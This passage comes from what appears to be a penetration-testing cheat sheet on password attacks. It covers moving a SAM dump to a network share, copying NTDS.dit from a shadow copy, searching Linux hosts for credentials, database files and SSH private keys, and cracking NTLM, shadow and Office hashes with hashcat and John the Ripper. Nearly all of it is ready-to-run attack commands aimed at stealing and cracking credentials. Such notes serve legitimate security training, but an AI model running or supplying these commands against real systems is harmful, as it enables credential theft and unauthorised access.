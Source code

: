 Transfer files over the network
- `move sam.save \\<ip>\NameofFileShare`

Copy NTDS.dit from volume shadow copy
- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
### Linux Password Attacks

Find configuration files on a Linux system
```bash
for l in $(echo ".conf .config .cnf");do 
  echo -e "\nFile extension: " $l; 
  find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core";
done
```

Search for credentials in configuration files
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do 
  echo -e "\nFile: " $i; 
  grep "user|password|pass" $i 2>/dev/null | grep -v "\#";
done
```

Find database files
```bash
for l in $(echo ".sql .db .*db .db*");do 
  echo -e "\nDB File extension: " $l; 
  find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";
done
```

Search for text files in home directories
- `find /home/* -type f -name "*.txt" -o ! -name "*.*"`

Find SSH private keys
- `grep -rnw "PRIVATE KEY" / 2>/dev/null | grep ":1"`
### Cracking Passwords

Crack NTLM hash with Hashcat
- `hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show`

Crack PDF hash with John the Ripper
- `john --wordlist=rockyou.txt pdf.hash`

Combine passwd and shadow files for cracking
- `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes`

Crack unshadowed hashes with Hashcat
- `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked`

Extract hash from protected Office document
- `office2john.py Protected.docx > protected-docx.hash`

## Attacking Common Services
